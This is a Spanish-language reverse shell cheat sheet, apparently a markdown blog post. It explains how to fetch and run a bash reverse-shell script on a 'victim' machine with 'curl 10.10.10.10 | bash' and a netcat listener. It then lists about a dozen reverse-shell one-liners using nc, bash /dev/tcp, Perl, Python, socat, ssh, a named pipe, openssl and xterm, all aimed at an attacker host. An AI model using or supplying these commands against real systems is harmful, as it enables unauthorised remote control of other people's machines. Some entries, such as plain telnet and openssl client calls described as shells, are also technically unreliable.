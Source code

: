 ```yaml
---
title: Revershell cheet sheat
published: true
---
```


- Primeramente debes tener ejecucion remota de comandos, 
- luego verificar si hay curl  , lo haces con " which curl"
- luedo de la maquina atacante te abres un servidor http y creas un 
- index.html:

    	```
    	#!/bin/bash
    	bash -i >& /dev/tcp/10.10.10.10/443 0>&1
	```

- y te pones en escucha en la maquina atacante con:

	```
    	nc -nlvp 443 
    	```
- y ejecutas en la maquina victima lo siguiente 
 
	```
    	curl 10.10.10.10 | bash
	```
- obtendras una revershell(realizar tratamiento de la consola):

***********************
******MAS FORMAS*****
***********************

- Este comando usa netcat (nc) para establecer una conexión con el sistema atacante en la dirección IP especificada y 
- el puerto 443, y ejecuta una shell inversa para permitir al sistema atacante ejecutar comandos en el sistema objetivo.

    	```
    	nc -e /bin/sh X.X.X.X 443
    	```

- Este comando utiliza el intérprete de comandos "bash" y "redirecciones de descriptor de archivo" para establecer 
- una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

	```
	bash -i >& /dev/tcp/X.X.X.X/443 0>&1 
	```

- Este comando utiliza el lenguaje de programación Perl y las funciones de socket para establecer una conexión
de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
 
	```
    	perl -e 'use Socket;$i="X.X.X.X";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    	```
- Este comando utiliza el lenguaje de programación Python y las funciones de socket para establecer una conexión de
 "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    	```
    	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("X.X.X.X",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    	```
---

- Este comando utiliza el programa socat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.
- El comando crea un pseudo-TTY y lo conecta a través de un socket TCP.

    	```
    	socat file:tty,raw,echo=0 tcp-connect:X.X.X.X:443 
    	```
- Este comando utiliza OpenSSH para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" a través del puerto 443. 
- El comando habilita un tunel inverso (reverse tunnel) en el puerto 443 del sistema objetivo, que se conecta al puerto 443 del sistema atacante.

    	```
    	ssh -R 443:localhost:443 user@X.X.X.X  
    	```
- Este comando utiliza el protocolo Telnet para establecer una conexión con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    	```
    	telnet X.X.X.X 443
    	```
- Este comando utiliza pipes ( tuberías) y la herramienta netcat para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    	```
    	mknod backpipe p && nc X.X.X.X 443 0<backpipe | /bin/bash 1>backpipe
    	```

- Este comando utiliza el intérprete de comandos "bash" y redirecciones de descriptor de archivo para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    	```
    	/bin/bash -i > /dev/tcp/X.X.X.X/443 0<&1 2>&1
    	```

- Este comando utiliza la herramienta openssl para establecer una conexión SSL/TLS con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443, luego ejecuta un comando shell remotamente a través de esa conexión.

    	```
    	openssl s_client -quiet -connect X.X.X.X:443
    	```

- Este comando utiliza redirecciones de descriptor de archivo y sockets TCP para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" y el puerto 443.

    	```
    	exec 5<>/dev/tcp/X.X.X.X/443
    	```

- Este comando utiliza xterm, una terminal gráfica para establecer una conexión de "reverse shell" con el sistema atacante en la dirección IP "X.X.X.X" en el puerto TCP/IP predeterminado para XDMCP (X Display Manager Control Protocol).

    	```
    	xterm -display X.X.X.X:0
    	```
